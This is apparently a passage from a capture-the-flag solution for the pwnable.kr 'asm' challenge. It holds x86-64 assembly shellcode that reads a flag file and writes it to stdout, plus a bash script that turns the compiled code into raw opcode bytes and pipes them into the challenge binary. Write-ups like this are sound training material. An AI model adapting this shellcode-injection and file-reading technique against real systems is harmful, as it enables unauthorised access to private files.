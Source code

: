 ```asm
  syscall

  jmp exit

read: 

  #make space on the stack for the flag
  # we only need 67 bytes, but lets align it to 8 bytes
  sub $72, %rsp

  #read the flag
  mov %rax, %rdi # arg fg
  lea (%rsp), %rsi 
  mov $67, %rdx
  xor %rax, %rax # syscall read
  syscall

key:
  lea (%rsp), %rsi # arg: char*
  mov $67, %dl # arg: len
  mov $1, %rdi # arg: fd stdout 
  mov $1, %rax # system call number: write
  syscall


exit:
  xor %rdi, %rdi # exit code 0
  mov $60, %rax # system call exit
  syscall 


ender:
  call setup
  .asciz
"this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
  .byte 0x0 #put this zero here to null terminate the string. asciz should also null terminate, but it wasn't working properly on the server 

```

And here is a helper script to run on the server:

```bash
#!/usr/bin/env bash

as -o shell.o shell.asm && ld -o shell shell.o

MUFN=`for i in $(objdump -d shell -M intel |grep "^ " |cut -f2); do echo -n
'\x'$i; done;echo`

dir=`pwd`
cd

echo 'Now in ' `pwd`

python -c "import sys; sys.stdout.write('$MUFN')" | ./asm
echo
cd $dir

echo 'Now in ' `pwd`
echo "Trying for the real key"

```